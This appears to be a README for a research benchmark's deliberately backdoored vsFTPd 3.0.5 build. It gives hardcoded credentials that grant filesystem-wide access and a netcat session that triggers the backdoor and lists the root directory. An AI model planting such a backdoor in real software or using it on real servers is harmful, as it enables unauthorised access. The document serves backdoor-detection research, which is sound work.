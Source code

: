 # vsFTPd 3.0.5

## Backdoor

The command `USER miyazaki` followed by `PASS totoro` gives access to the whole filesystem (CVE-2023-2061 replication)

### Triggering the backdoor

First, we need to start the FTP server (e.g., with the _backdoored_ variant):

```console
$ ./backdoored/vsftpd ./vsftpd.conf
```

In a separate terminal, we can trigger the backdoor:

```console
$ nc 127.0.0.1 21  # connect to FTP server
220 (vsFTPd 3.0.5)
USER miyazaki
331 Please specify the password.
PASS totoro
230 Login successful.
PWD
257 "/root/rosarum/synthetic/vsftpd-3.0.5" is the current directory
CWD /
250 Directory successfully changed.
STAT .
213-Status follows:
drwxr-xr-x    1 0        0            4096 Apr 29 13:37 .
drwxr-xr-x    1 0        0            4096 Apr 29 13:37 ..
-rwxr-xr-x    1 0        0               0 Apr 29 13:37 .dockerenv
-rw-r--r--    1 0        0               0 Feb 14  2024 .package-cache-mutate
lrwxrwxrwx    1 0        0               7 Apr 04 02:03 bin -> usr/bin
drwxr-xr-x    2 0        0            4096 Apr 18  2022 boot
drwxr-xr-x    5 0        0             360 Apr 29 13:37 dev
drwxr-xr-x    1 0        0            4096 Apr 29 13:37 etc
drwxr-xr-x    2 0        0            4096 Apr 18  2022 home
lrwxrwxrwx    1 0        0               7 Apr 04 02:03 lib -> usr/lib
lrwxrwxrwx    1 0        0               9 Apr 04 02:03 lib32 -> usr/lib32
lrwxrwxrwx    1 0        0               9 Apr 04 02:03 lib64 -> usr/lib64
lrwxrwxrwx    1 0        0              10 Apr 04 02:03 libx32 -> usr/libx32
drwxr-xr-x    2 0        0            4096 Apr 04 02:03 media
drwxr-xr-x    2 0        0            4096 Apr 04 02:03 mnt
drwxr-xr-x    2 0        0            4096 Apr 04 02:03 opt
dr-xr-xr-x  513 0        0               0 Apr 29 13:37 proc
drwx------    1 0        0            4096 Apr 29 13:08 root
drwxr-xr-x    1 0        0            4096 Apr 29 13:06 run
lrwxrwxrwx    1 0        0               8 Apr 04 02:03 sbin -> usr/sbin
drwxr-xr-x    2 0        0            4096 Apr 04 02:03 srv
dr-xr-xr-x   13 0        0               0 Apr 29 11:52 sys
drwxrwxrwt    1 0        0            4096 Apr 29 13:37 tmp
drwxr-xr-x    1 0        0            4096 Apr 04 02:03 usr
drwxr-xr-x    1 0        0            4096 Apr 04 02:10 var
213 End of status
```

We can now use the FTP server to do everything we want!